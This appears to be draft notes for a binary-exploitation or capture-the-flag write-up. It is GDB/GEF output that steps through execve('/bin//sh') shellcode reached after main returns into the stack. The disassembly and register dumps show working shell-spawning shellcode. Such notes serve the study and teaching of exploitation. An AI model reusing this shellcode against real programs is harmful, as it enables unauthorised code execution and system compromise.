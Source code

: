 
For writeup
Right before shellcode is called:
```
 →   0x400681 <main+80>        ret    
   ↳  0x7fffffffddd0                  xor    rsi, rsi
      0x7fffffffddd3                  push   rsi
      0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
      0x7fffffffddde                  push   rdi
      0x7fffffffdddf                  push   rsp
      0x7fffffffdde0                  pop    rdi
```

```
gef➤  $ x/10i 0x7fffffffddd0
   0x7fffffffddd0:    xor    rsi,rsi
   0x7fffffffddd3:    push   rsi
   0x7fffffffddd4:    movabs rdi,0x68732f2f6e69622f
   0x7fffffffddde:    push   rdi
   0x7fffffffdddf:    push   rsp
   0x7fffffffdde0:    pop    rdi
   0x7fffffffdde1:    push   0x3b
   0x7fffffffdde3:    pop    rax
   0x7fffffffdde4:    cdq
   0x7fffffffdde5:    syscall
```
Breakpoint:
```
   0x7fffffffddd0:                 xor    rsi,rsi
   0x7fffffffddd3                  push   rsi
   0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
   0x7fffffffddde                  push   rdi
●→ 0x7fffffffdddf                  push   rsp
   0x7fffffffdde0                  pop    rdi
   0x7fffffffdde1                  push   0x3b
   0x7fffffffdde3                  pop    rax
   0x7fffffffdde4                  cdq    
   0x7fffffffdde5                  syscall 
```

Stack and rsp
```
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rsi   : 0x0               
$rdi   : 0x68732f2f6e69622f ("/bin//sh"?)

stack ────
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp
```


Next breakpoint:
```
   0x7fffffffddd0:                 xor    rsi,rsi
   0x7fffffffddd3                  push   rsi
   0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
   0x7fffffffddde                  push   rdi
   0x7fffffffdddf                  push   rsp
   0x7fffffffdde0                  pop    rdi
●→ 0x7fffffffdde1                  push   0x3b
   0x7fffffffdde3                  pop    rax
   0x7fffffffdde4                  cdq    
   0x7fffffffdde5                  syscall 
```
Regisers
```
 registers ────
$rax   : 0x0               
```